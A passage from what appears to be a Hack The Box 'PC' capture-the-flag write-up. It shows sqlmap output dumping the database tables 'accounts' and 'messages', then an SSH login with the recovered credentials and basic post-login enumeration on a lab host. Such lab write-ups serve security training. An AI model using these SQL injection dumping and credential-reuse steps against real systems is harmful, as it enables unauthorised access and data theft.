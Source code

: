 ```bash
[21:53:29] [INFO] table 'SQLite_masterdb.accounts' dumped to CSV file '/home/kali/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/accounts.csv'
[21:53:29] [INFO] fetching columns for table 'messages' 
[21:53:29] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+

[21:53:29] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/kali/.local/share/sqlmap/output/127.0.0.1/dump/SQLite_masterdb/messages.csv'
[21:53:29] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 21:53:29 /2023-09-22/
```
{: .nolineno}

I got the credentials so its time for ssh now :

## SSH Login ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/PC]
└─$ ssh sau@10.10.11.214        
The authenticity of host '10.10.11.214 (10.10.11.214)' cant be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.214' (ED25519) to the list of known hosts.
sau@10.10.11.214s password: 
Last login: Fri Sep 22 15:47:09 2023 from 10.10.15.23
sau@pc:~$ whoamo

Command 'whoamo' not found, did you mean:

  command 'whoami' from deb coreutils (8.30-3ubuntu2)

Try: apt install <deb name>

sau@pc:~$ whoami
sau
sau@pc:~$ id
uid=1001(sau) gid=1001(sau) groups=1001(sau)
sau@pc:~$ sudo -l
[sudo] password for sau: 
Sorry, user sau may not run sudo on localhost.
sau@pc:~$ ls -al
total 40
drwxr-xr-x 6 sau  sau  4096 Sep 22 15:53 .
drwxr-xr-x 3 root root 4096 Jan 11  2023 ..
lrwxrwxrwx 1 root root    9 Jan 11  2023 .bash_history -> /dev/null
-rw-r--r-- 1 sau  sau   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 sau  sau  3771 Feb 25  2020 .bashrc
drwx------ 2 sau  sau  4096 Jan 11  2023 .cache
drwx------ 3 sau  sau  4096 Sep 22 15:32 .gnupg
drwxrwxr-x 3 sau  sau  4096 Sep 22 15:49 .local
-rw-r--r-- 1 sau  sau   807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Jan 11  2023 .viminfo -> /dev/null
```